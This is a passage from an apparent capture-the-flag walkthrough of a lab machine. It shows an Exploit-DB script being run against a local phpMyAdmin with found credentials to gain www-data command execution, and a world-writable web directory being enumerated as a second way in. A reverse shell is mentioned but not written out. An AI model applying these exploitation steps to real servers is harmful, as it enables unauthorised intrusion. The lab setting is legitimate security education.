 ```bash
Shellcodes: No Results

┌──(user㉿kali-linux-2022-2)-[~]
└─$              
```
{: .nolineno }

Because this port isn't exposed externally, we'll have to either set up a reverse tunnel or attack locally on the box. For simplicity, we upload the exploit file and run it against localhost with the credentials that we found in ada's python file earlier. 
```console
ada@forgottenimplant:~$ python3 ./50457.py 127.0.0.1 80 / app [redacted] id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

The exploit seems to work. We can upload or create a file with our reverse shell of choice and call it with this script to obtain a new shell as www-data.

### Alternate Path

In most challenges we’re trying to elevate *out* of the www-data account, lets look for an easier way *in* considering we already have a shell.

Enumerating `/var/www/phpmyadmin` we see we can write to the `tmp` folder:

```bash
ada@forgottenimplant:/var/www/phpmyadmin$ ls -la

total 908
drwxrwxr-x 15     1002     1002   4096 Jul 12  2022 .
drwxr-xr-x  4 root     root       4096 Jul 12  2022 ..
-rw-rw-r--  1 www-data www-data   1578 May 25  2018 ajax.php

[...]

drwxrwxr-x  4 www-data www-data   4096 May 25  2018 themes
-rw-rw-r--  1 www-data www-data    956 May 25  2018 themes.php
drwxrwxrwx  3 www-data www-data   4096 Jul 12  2022 tmp
-rw-rw-r--  1 www-data www-data   1910 May 25  2018 transformation_overview.php
-rw-rw-r--  1 www-data www-data   4617 May 25  2018 transformation_wrapper.php
-rw-rw-r--  1 www-data www-data   1316 May 25  2018 url.php
-rw-rw-r--  1 www-data www-data   1943 May 25  2018 user_password.php
drwxr-xr-x 25 www-data www-data   4096 Jul 12  2022 vendor
-rw-rw-r--  1 www-data www-data   1085 May 25  2018 version_check.php
-rw-rw-r--  1 www-data www-data   5531 May 25  2018 view_create.php
-rw-rw-r--  1 www-data www-data   3875 May 25  2018 view_operations.php
-rw-rw-r--  1 www-data www-data  29031 May 25  2018 yarn.lock
ada@forgottenimplant:/var/www/phpmyadmin$
```
{: .nolineno }

If we can access files in this directory through the web server we'll be able to run code as www-data. 
